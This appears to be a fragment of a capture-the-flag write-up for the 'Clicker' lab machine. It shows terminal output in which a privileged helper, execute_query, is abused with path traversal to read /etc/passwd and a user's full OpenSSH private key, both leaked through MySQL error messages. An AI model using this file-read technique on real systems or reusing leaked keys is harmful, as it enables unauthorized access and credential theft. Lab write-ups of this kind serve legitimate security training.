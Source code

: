 ```bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
' at line 1
```

```bash
www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
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
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```
